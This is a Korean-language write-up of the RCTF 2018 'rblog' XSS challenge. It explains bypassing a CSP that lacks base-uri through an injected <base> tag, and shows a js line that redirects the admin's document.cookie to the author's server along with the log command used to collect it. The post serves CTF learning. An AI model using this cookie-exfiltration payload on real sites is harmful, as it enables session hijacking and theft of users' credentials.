 ```yaml
---
title: "[RCTF2018] rblog Write up"
date: 2021-05-05T12:59:44Z
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, RCTF2018]
---
```


`rblog`는 `RCTF 2018`에 출제되었던 XSS 문제인데, 대회 기간에는 풀이하지 못했다가 Write-up이 올라온 후 풀어보게 되었다.  

문제 정보는 아래와 같다.  

<!--more-->

```
get `document.cookie`
http://rblog.2018.teamrois.cn
```

### 1. 문제 분석

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_01.PNG)  

제목과 내용을 적고, 스타일을 적용하거나 이미지를 업로드할 수 있는 기능이 있다.  

또한 `최신 버전의 Chrome을 사용중인 admin`에게 신고할 수도 있다.  

admin에게 신고할 때에는 특정 값을 입력해야 하는데, 이는 내가 업로드 한 블로그의 주소라는 것을 알 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_02.PNG)  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_03.PNG)  

### 2. 취약점 찾기

문제의 설명에서 `document.cookie`를 얻으라고 했으므로 `XSS` 문제인 것은 알 수 있다.  

때문에 어떤 부분에서 `XSS`가 가능한지 알기 위해 `title`, `content`, `style`을 적용하는 부분에 아래와 같이 script 코드를 삽입 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_04.PNG)  

그 결과, `title` 부분에서 `script`가 정상적으로 삽입되는 것을 확인할 수 있었지만, 실행되지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_05.PNG)  

이 문제에도 역시나 `CSP`가 걸려있었다.  

`XSS` 공격은 해야하는데, `CSP`가 걸려 있어서 어떻게 풀이해야 하나 싶었는데, 다른 사람들의 write-up을 보니 `Google`에서 만든 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)를 통해 특정 사이트에 적용 된 CSP 정보를 확인할 수 있었다.  

문제의 URL을 넣고 확인 해 보니 `base-uri`에 대한 보호가 적용되어 있지 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_06.PNG)  

즉, `<base>`라는 태그를 사용하여 소스코드 상에서 사용된 상대 경로의 기준이 될 경로를 지정할 수 있다.  

만약 소스코드에서 css 파일이나 js 파일 등을 참조할 때 `./css/style.css`라는 상대 경로가 있을 경우, `<base>` 태그를 이용해 따로 경로를 설정해 주지 않는 한 `현재 페이지의 경로를 기준`으로 `style.css`를 찾아간다.  

그런데 만약 `<base>` 태그를 이용 해 `<base href="http://www.test.com/">`와 같이 기준 경로를 바꾸어 줄 경우, `설정해 준 경로를 기준`으로 파일을 찾아가게 된다.  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준다면, 문제의 소스코드 내에서 사용하는 `js`나 `css`를 내가 원하는 파일로 바꾸어 실행시킬 수 있다.  

우리는 `document.cookie`를 얻어야 하므로, `js` 파일을 사용하는 부분을 찾아보았다.  

다시 소스코드를 살펴보니 내가 업로드 한 블로그 글의 하단에서 아래와 같이 `js` 파일을 실행시키는 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_07.PNG)  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준 후, 바꾼 경로에 `/assets/js/jquery.min.js` 파일을 만든다면, 내가 원하는 코드를 실행시킬 수 있게 된다.  

### 3. 문제 풀이

나는 내 서버와 도메인을 갖고 있기 때문에 내 서버를 사용했다.  

내 서버에 `/assets/js/` 디렉토리 아래에 `jquery.min.js` 파일을 생성한 후, 아래와 같이 소스코드를 구현하였다.  

```js
location.href = "http://ccoma.me/?" + document.cookie;
```

이 후 `title`에 `<base href="http://ccoma.me/"/>` 를 넣어 글을 올린다면 기준 경로가 내 도메인이 되어 `<script nonce="af8d8b049007ffdddf9d4104295d126e" src="/assets/js/jquery.min.js"></script>`는 실제로는 `http://ccoma.me/assets/js/jquery.min/js`를 실행하게 된다.  

이 때, 해당 경로에는 `location.href = "http://ccoma.me/?" + document.cookie;`가 있으므로 `document.cookie`의 값을 인자로 해 해당 도메인에 접근하게 될 것이다.  

글을 업로드 한 후에 해당 글의 경로를 `admin`에게 신고하면 `admin`이 해당 글에 접근할 것이며, 결론적으로 `admin`의 `cookie`를 인자로 해당 도메인에 다시 접근하게 된다.  

먼저 아래와 같이 글을 올려 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_08.PNG)  

`jquery.min.js`에는 `location.href`가 구현되어 있기 때문에 내 서버로 리다이렉트 될 것이다.  

때문에 `burp suite`를 이용 해 `Response`를 잡아 블로그 글의 주소를 캡쳐 했다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_09.PNG)  

이 후 해당 글의 링크를 `admin`에게 보내주었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_10.PNG)  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_11.PNG)  

그러면 `admin`이 내 서버로 접근하게 되는데, 이 때 GET 방식으로 cookie가 넘어오게 되므로 이를 확인하기 위해 `access.log`를 확인 해 보았다.  

```
tail -f /var/log/apache2/access.log
```

전송 후에 짧게는 몇 초, 길게는 2분 정도를 기다리면 아래와 같이 flag가 함께 전송된 것을 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/rblog/rblog_12.PNG)  

```
FLAG : RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}
```
